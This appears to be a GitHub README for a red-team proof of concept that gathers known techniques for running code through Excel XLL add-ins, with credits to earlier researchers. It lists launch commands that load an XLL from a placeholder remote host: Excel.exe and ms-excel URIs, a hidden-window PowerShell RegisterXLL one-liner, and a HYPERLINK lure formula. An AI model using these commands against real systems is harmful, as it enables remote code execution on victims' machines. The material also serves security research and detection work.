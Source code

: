 # xllpoc
## Code Exec via Excel
A small project that aggregates community knowledge for Excel XLL execution, via xlAutoOpen() or PROCESS_ATTACH. Not a new concept.

### Credit   
- EdParcell: https://github.com/edparcell/HelloWorldXll  
- MSDN: https://msdn.microsoft.com/en-us/library/office/bb687883.aspx  
- Ryan Hanson: https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52  
- Google Groups: https://groups.google.com/forum/#!msg/exceldna/d2ogsPkv6YM/NGnSrU9tmpMJ  
- MWR Labs: https://labs.mwrinfosecurity.com/blog/add-in-opportunities-for-office-persistence/
- @SubTee

### Getting Execution
Excel
```
Excel.exe http://foo.com/xll.xll
```
uri
```
ms-excel:ofe|u|http://foo.com/xll.xll
```
Everyone favourite oneliner
```
powershell -w hidden -c "IEX ((new-object -ComObject excel.application).RegisterXLL('\\webdavxll_poc.xll')"
```
Embedded in the Worksheet
```
=HYPERLINK("http://foo.com/xll.xll", "CLICK")
```

### To-Do

- Add x64 support
- ...
